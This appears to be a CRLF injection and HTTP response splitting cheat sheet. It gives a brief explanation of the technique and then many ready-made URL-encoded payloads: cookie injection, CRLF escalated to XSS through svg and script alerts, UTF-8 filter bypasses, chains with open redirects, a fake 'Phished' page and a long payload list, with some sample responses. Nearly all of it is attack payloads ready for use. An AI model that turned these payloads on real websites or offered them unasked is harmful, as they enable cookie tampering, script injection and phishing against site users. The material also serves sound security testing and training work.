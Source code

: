 ## Carriage Return Line Feed (CRLF)

> The term CRLF refers to Carriage Return (ASCII 13, \r) Line Feed (ASCII 10, \n). They're used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.

>  A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

**CRLF - Add a cookie**

Requested page

`http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue`

**HTTP Response**

```
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

**CRLF - Add a cookie - XSS Bypass**

Requested page

```
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

HTTP Response

```
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

**CRLF - Write HTML**

Requested page

```
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response

```
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

**CRLF - Filter Bypass**

Using UTF-8 encoding

```
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

Remainder:

```
    %E5%98%8A = %0A = \u560a
    %E5%98%8D = %0D = \u560d
    %E5%98%BE = %3E = \u563e (>)
    %E5%98%BC = %3C = \u563c (<)
```

Example report: https://vulners.com/hackerone/H1:192749
Complete the following Portswigger lab to practice 🤓 : https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection

## CRLF Injection || HTTP Response Splitting

`%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;`

**Header-based test, site root**

`%0d%0aheader:header`

`%0aheader:header`

`%0dheader:header`

`%23%0dheader:header`

`%3f%0dheader:header`

`/%250aheader:header`

`/%25250aheader:header`

`/%%0a0aheader:header`

`/%3f%0dheader:header`

`/%23%0dheader:header`

`/%25%30aheader:header`

`/%25%30%61header:header`

`/%u000aheader:header`

**CRLF chained with Open Redirect server misconfiguration**

Note: This sometimes works. (Discovered in some Yandex sites, was not exploitable from the root.)

`//www.google.com/%2f%2e%2e%0d%0aheader:header`

`/www.google.com/%2e%2e%2f%0d%0aheader:header`

`/google.com/%2F..%0d%0aheader:header`

**Twitter specific CRLF**

`%E5%98%8A%E5%98%8Dheader:header`

**CRLF Injection to XSS**

```
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
```

**Response splitting on 302 Redirect, before Location header (Discovered in DoD)**

```
%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E
```

**Response splitting on 301 code, chained with Open Redirect to corrupt location header and to break 301.**

Note: xxx:1 was used for breaking open redirect destination (Location header). Great example how of to escalate CRLF to XSS on a such, it would seem, unexploitable 301 status code.

```
%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
```

## CRLF Payload List

🔹 /%%0a0aSet-Cookie:crlf
🔹 /%0aSet-Cookie:crlf
🔹 /%0d%0aSet-Cookie:crlf
🔹 /%0dSet-Cookie:crlf
🔹 /%23%0aSet-Cookie:crlf
🔹 /%23%0d%0aSet-Cookie:crlf
🔹 /%23%0dSet-Cookie:crlf
🔹 /%25%30%61Set-Cookie:crlf
🔹 /%25%30aSet-Cookie:crlf
🔹 /%250aSet-Cookie:crlf
🔹 /%25250aSet-Cookie:crlf
🔹 /%2e%2e%2f%0d%0aSet-Cookie:crlf
🔹 /%2f%2e%2e%0d%0aSet-Cookie:crlf
🔹 /%2F..%0d%0aSet-Cookie:crlf
🔹 /%3f%0d%0aSet-Cookie:crlf
🔹 /%3f%0dSet-Cookie:crlf
🔹 /%u000aSet-Cookie:crlf
🔹 /%E5%98%8D%E5%98%8ASet-Cookie:crlf

Look at this amazing CRLF in Linkedin <a:PartyParrot:1050252232731414579> 

https://www.youtube.com/watch?v=J9EtNewroN4

